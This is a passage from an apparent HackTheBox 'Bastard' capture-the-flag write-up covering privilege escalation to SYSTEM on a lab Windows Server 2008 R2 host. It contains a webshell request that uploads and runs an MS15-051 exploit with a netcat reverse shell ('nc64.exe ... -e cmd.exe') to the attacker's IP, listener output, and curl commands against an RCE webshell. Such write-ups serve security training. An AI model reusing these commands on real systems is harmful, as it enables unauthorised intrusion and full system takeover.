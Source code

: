 ## Alternative Exploit Method

Credits for this section: [ippsec:HackTheBox-Bastard](https://youtu.be/lP-E5vmZNC0)&#x20;

### Straight to "SYSTEM"

#### Method 1:

Using the methods discussed in the video we are able to get a shell on the target as the "system" user directly. This would require some advance knowledge of the target system including the following, which we could easliy gather using our PHP RCE by running the "systeminfo" command:

* The target is running an unpactched version of Windows Server 2008 R2&#x20;
* The target is running on the x86\_64 architecture

Start a netcat listener.

Download the "ms15-051x64.exe" binary as shown in the "MS15-051" section above.

Start a python3 webserver in the directory containing the exploit binary.

Run the following command:

> http://10.10.10.9/webshell.php?fupload=ms15-051x64.exe\&fupload=nc64.exe\&fexec=ms15-051x64.exe "nc64.exe 10.10.14.10 8888 -e cmd.exe"

In our listener we get a shell as "system":

```
└─$ nc -nvlp 8888
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:49316.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system

C:\inetpub\drupal-7.54>
```

#### Method 2:

We could also simply check the user privileges to find that the user has the "SeImpersonatePrivilege" privlege, and verify the current working directory:

```
└─$ curl -X GET "http://10.10.10.9/rce.php?cmd=whoami%20%2Fpriv"

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled

└─$ curl -X GET "http://10.10.10.9/rce.php?cmd=cd"              
C:\inetpub\drupal-7.54

```
